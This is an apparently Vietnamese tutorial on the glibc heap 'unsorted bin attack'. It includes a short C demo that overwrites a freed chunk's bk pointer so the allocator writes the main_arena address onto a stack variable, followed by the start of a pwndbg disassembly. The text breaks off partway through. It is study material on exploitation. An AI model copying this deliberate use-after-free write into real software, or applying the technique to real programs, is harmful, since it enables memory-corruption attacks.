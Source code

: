 ![](https://i.imgur.com/1iufFdS.png)

-	Unsorted bin attack là kĩ thuật mà trong đó địa chỉ của main_arena ("&main_arena.bin[0]-16") được lưu trữ vào vùng mong muốn bằng cách ghi đè bk của free chunk trước khi chunk allocator xóa chunk đó ra khỏi unsorted list.
-	Nếu attacker ghi đè địa chỉ stack `0x7fffffffe248` bằng bk của chunk đã có trong unsorted list, allocator sẽ địa chỉ trả về bởi unsorted_chunks () trong bck → fd (0x7fffffffe258) vì địa chỉ được lưu trữ trong bck là 0x7fffffffe248.  

![](https://i.imgur.com/LB2e6Wm.png)

# Example
## Example 1
-	Luồng thực thi của đoạn code sau:
	-	Tạo 1 biến state (dùng để xem địa chỉ stack), malloc 2 vùng nhớ unsorted bin, sau đó free vùng nhớ 1.
	-	Sau khi lưu giá trị đã được tính toán của `((char*)&state)-16" in buf1[1]`, yêu cầu cấp phát tiếp 1 vùng nhớ mới.
	-	nếu state có giá trị, in ra giá trị đó
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
  
int main(){
    unsigned long long state = 0;
  
    fprintf(stderr,"Stack : %p\n", &state);
    unsigned long long *buf1 = malloc(130);
    char *buf2 = malloc(500);
  
    free(buf1);
  
    buf1[1] = (unsigned long long)(((char*)&state) - 16);
    buf1 = malloc(130);
  
    if(state){
        fprintf(stderr,"Hello world!\n");
    }
}
```
-	Kiểm tra địa chỉ của vùng nhớ được cấp phát tại địa chỉ 0x4006ec, 0x4006fa.
	-	Kiểm tra data của fd,bk của chunk đã được register trong unsorted list tại địa chỉ 0x40070a.
	-	Tại 0x40017a, check giá trị ghi đè bk của free chunk có phải unsorted bin attack hay không.
	-	Check địa chỉ của main arena tại 0x400727 được lưu vào trong stack.

>set breakpoint
```nasm
tinnt@ubuntu:~/research/heap/unsorted-bin$ gdb -q unsorted-bin 
Reading symbols from unsorted-bin...(no debugging symbols found)...done.
pwndbg> disassemble main
Dump of assembler code for function main:
   0x00000000004006a6 <+0>:	push   rbp
   0x00000000004006a7 <+1>:	mov    rbp,rsp
   0x00000000004006aa <+4>:	sub    rsp,0x20
   0x00000000004006ae <+8>:	mov    rax,QWORD PTR fs:0x28
   0x00000000004006b7 <+17>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000004006bb <+21>:	xor    eax,eax
   0x00000000004006bd <+23>:	mov    QWORD PTR [rbp-0x20],0x0
   0x00000000004006c5 <+31>:	mov    rax,QWORD PTR [rip+0x200994]        # 0x601060 <stderr@@GLIBC_2.2.5>
   0x00000000004006cc <+38>:	lea    rdx,[rbp-0x20]
```
